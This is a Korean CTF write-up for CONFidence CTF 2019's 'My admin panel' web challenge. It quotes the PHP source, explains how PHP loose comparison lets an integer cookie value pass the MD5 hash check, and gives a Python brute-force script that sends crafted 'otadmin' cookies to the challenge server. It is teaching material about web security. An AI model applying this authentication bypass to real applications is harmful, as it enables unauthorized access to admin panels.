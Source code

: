 ```yaml
---
layout: post
title: ! "[CONFidence CTF 2019] My admin panel"
categories: [CTF]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - ctf
  - write-up
---
```


Teaser CONFidence CTF 2019의 `My admin panel` 문제이다.
[Link](https://gameserver.zajebistyc.tf/admin/)
![]({{ site.baseurl }}/assets/posts/ctf/myadminpanel.png)

```php
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();

```

코드를 보면 otadmin 쿠키가 존재하지 않으면 "Not authenticated."가 뜬다.
디렉토리에서 바로 login.php 파일에 접근했을 때 뜨는 메시지와 동일하다.

otadmin 쿠키가 정규식 [0-9A-Z\"]와 일치하지 않거나 session_data가 NULL이면 "COOKIE TAMPERING xD IM A SECURITY EXPERT"가 뜬다.

![]({{ site.baseurl }}/assets/posts/ctf/myadminpanel_burp.png)
![]({{ site.baseurl }}/assets/posts/ctf/myadminpanel_hint.png)

hash 값과 strtoupper(MD5($cfg_pass))가 일치하지 않으면 위와 같이 힌트를 주는데
이 부분에서 loose comparison을 사용한다.
PHP는 loose comparision으로 정수와 문자열을 비교할 때 정수를 문자열의 첫 번째 숫자와 비교한다.
EX) 123 !== "123", 123 == "123aaa"

![]({{ site.baseurl }}/assets/posts/ctf/loose_comparision.png)

`0006464640640064000646464640006400640640646400` 에서 앞부분 세 자리를 Bruteforce 하면 될 것 같다.


```py
import requests
  
url = "https://gameserver.zajebistyc.tf/admin/login.php"
s = requests.Session()

for i in range(500):
    r = s.get(url, cookies={'otadmin':'{"hash": '+str(i)+'}'})
    if "GIVE" not in r.text:
        print(r.text)
        print("HASH : "+str(i))
        break

```

![]({{ site.baseurl }}/assets/posts/ctf/myadminpanel_flag.png)

플래그 !! 
